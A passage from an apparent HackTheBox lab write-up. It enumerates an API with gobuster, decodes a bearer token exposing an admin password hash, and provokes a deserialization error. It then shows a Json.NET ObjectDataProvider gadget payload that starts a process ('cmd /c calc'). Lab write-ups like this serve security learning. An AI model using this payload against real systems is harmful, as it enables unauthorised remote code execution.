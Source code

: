 Parsing through the code we see that we have an API endpoint. ```/api```, ```/api/Account``` and ```/api/token```. We'll use ```gobuster``` to enumerate possible enpoints more: ```gobuster dir -u http://10.10.10.158/api -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 40```. 

Now that we have some tools installed, let's get ```Burpsuit``` up and running and see what is being called. During our login we see this request

{{< figure src="__GHOST_URL__/content/images/2019/11/image-34.png" >}}

Now if we look at the ```Bearer token``` which is the same as the ```OAuth2 token```, we see it's in ```base64```. Let's quickly decode that, either Burp's built in decoder or via CLI.

```
echo 
eyJJZCI6MSwiVXNlck5hbWUiOiJhZG1pbiIsIlBhc3N3b3JkIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMiLCJOYW1lIjoiVXNlciBBZG1pbiBIVEIiLCJSb2wiOiJBZG1pbmlzdHJhdG9yIn0 | base64 -d
```

We get back some ```JSON``` data:

```
{"Id":1,"UserName":"admin","Password":"21232f297a57a5a743894a0e4a801fc3","Name":"User Admin HTB","Rol":"Administrator"}
```

At this point we will want to fuzz the API and see if there is anything it doesn't really like. We should also try crafting our own ```JSON``` payload to see what works. The first thing I do when I start fuzzing something are the low hanging fruits. Things like changing the request types, referer, cookies and bearer values. In this case when we change the bearer value, we get a deserialization error.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-35.png" >}}

{{< figure src="__GHOST_URL__/content/images/2019/11/image-36.png" >}}

What's interesting about this response is the error we get back. If we do some googling on the issue we see there are quite a few topics on the issue. In this case we will use [ysoserial.net](https://github.com/pwntester/ysoserial.net). The noticiable thing is that this is run on a windows machine and compiling to linux seems to be fairly hit or miss with a lot of dependancy legwork. So what we are going to do is simply copy the POC that we see in the documentation and base64 encode it and see what we get.

Our base POC code:
```
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd','/ccalc']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

